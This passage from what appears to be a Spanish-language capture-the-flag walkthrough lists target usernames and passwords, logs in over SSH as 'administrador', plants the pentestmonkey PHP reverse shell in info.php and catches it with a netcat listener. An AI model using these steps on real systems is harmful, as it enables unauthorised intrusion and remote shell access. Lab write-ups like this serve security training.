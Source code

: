 ```
  
6. Usuario: emiller  
  - Contraseña: PassEmiller2024!  
     
7. Usuario: administrador  
   - Contraseña: Adm1nP4ss2024      
  
8. Usuario: dwhite  
  - Contraseña: PassDwhite2024!  
  
9. Usuario: nlewis  
  - Contraseña: PassNlewis2024!  
  
10. Usuario: srodriguez  
  - Contraseña: PassSrodriguez2024!  
  
  
  
# Notas:  
- Mantener estas credenciales en un lugar seguro.  
- Cambiar las contraseñas periódicamente.  
- No compartir estas credenciales sin autorización.
```

Entramos por el ssh con la de administrador
```
administrador/Adm1nP4ss2024
```

### 2.5. Obtención de Reverse Shell a través de `info.php`

Buscamos una forma de ejecutar código en el servidor. Recordamos el archivo `/info.php` que encontramos durante el fuzzing. Si tenemos permisos para modificar este archivo, podemos inyectar una `php-reverse-shell` en él.

1. **Modificar `info.php`:**
modificamos el contenido del exploit de GitHub: 
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`

2.  **Configurar el Listener:** En tu máquina atacante, abre una terminal y configura un `netcat` listener en el puerto que especificaste en el script PHP (por ejemplo, 443).

    ```bash
    nc -lvnp 443
    ```

3.  **Ejecutar el Archivo Modificado:** Navega en tu navegador a la URL `http://<IP_DEL_OBJETIVO>/info.php`. Al acceder a esta URL, el servidor ejecutará el script PHP, lo que activará la conexión inversa a tu listener de `netcat`.

    Deberías ver una conexión entrante en tu terminal de `netcat`.

    ```bash
    whoami
    www-data
    ```

